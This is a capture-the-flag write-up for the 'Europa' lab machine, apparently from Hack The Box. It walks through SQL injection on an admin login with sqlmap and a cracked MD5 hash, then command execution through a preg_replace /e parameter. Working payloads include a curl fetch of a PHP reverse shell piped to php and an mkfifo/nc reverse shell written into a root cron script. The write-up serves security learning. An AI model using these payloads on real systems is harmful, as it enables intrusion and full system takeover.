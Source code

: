 # Europa

## Europa

Europa was a medium linux box that required an sql injection to bypass login followed by a reverse shell in the place of parameters using burpsuite, root involved enumeration of a cronjobs file being ran as root to get a shell.

## USER

### enumeration

Of course we start off with an nmap scan to reveal 2 main ports needed for this challenge.

```bash
root@kali:/home/kali/boxes/europa# nmap -sC -sV -o nmap 10.10.10.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:07 EDT
Nmap scan report for 10.10.10.22
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Sql injection

In the SSL cert for https we can see that there is a subdomain called `admin-portal` running on the domain `europacorp.htb`.

We add both of theese to our hosts file and enumerate the site on https.

We are greeted by a login page and we intercept the request with burpsuite to take a look at the parameters that it is executing.

It simply just asks for an email and a username. We start off with some simple sql injection tests to see if the site is vulnerable.

We get a redirect to a dashboard page with the parameters:

```bash
email=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

This is one way of doing it but i will cover another method using sqlmap.

As we know that the site is vulnerable we test params with sqlmap.

Theese are the commands that i used:

```bash
sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –dbs

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables -D admin

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables –columns -D admin -T users

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users –dump password
```

The final command brings us the password dump:

```bash
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

We decrypt the password and login with `admin@europacorp.htb:SuperSecretPassword!` , note that this is an md5 hash that can be decrypted with an online tool.

After logging in we navigate to tools where we can see what seems to be an openvpn config file.

```bash
"openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```

We press generate and intercept this again with burpsuite.

```bash
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

This is what it brings back, essentially url encoded the config above with a pattern param and ip address parameter. We tweak this to get command execution.

```bash
pattern=/ip_address/e&ipaddress=system('whoami')&text=....
```

This brings back the result `www-data` so we know we can continue with this.

After alot of tweaking we change it to get a file from our box and execute it.

```bash
pattern=/vtun0/e&ipaddress=system('curl+http%3a//10.10.xx.xx%3a8000/php-reverse-shell.php+|+php')&text=...
```

We get a connection on our netcat listener and we get a shell on the box!

### User flag

```bash
kali@kali:~/boxes/europa$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33246
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:06:16 up 4 min,  0 users,  load average: 0.01, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
john
$ cd john
$ cat user.txt
2f8d40{...}
```

## ROOT

### enumeration

After running `pspy` on the system we find a binary `clearlogs` running as root on the system. We read the file to take a look at it.

> clearlogs:
>
> ```php
> #!/usr/bin/php
> <?php
> $file = '/var/www/admin/logs/access.log';
> file_put_contents($file, '');
> exec('/var/www/cmd/logcleared.sh');
> ?>
> ```
>
> ### Exploitation

We can see that it is running the file `logcleared.sh` in the system so we will see if we can change the contents of that file to give us a root shell.

We echo a reverse shell to the file and wait a few seconds for it to execute and we get our shell.

```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
$ chmod 777 /var/www/cmd/logcleared.sh


root@kali:/home/kali/boxes/europa# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33248
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7f19438b275{...}
```

Thanks for reading hope that you enjoyed.

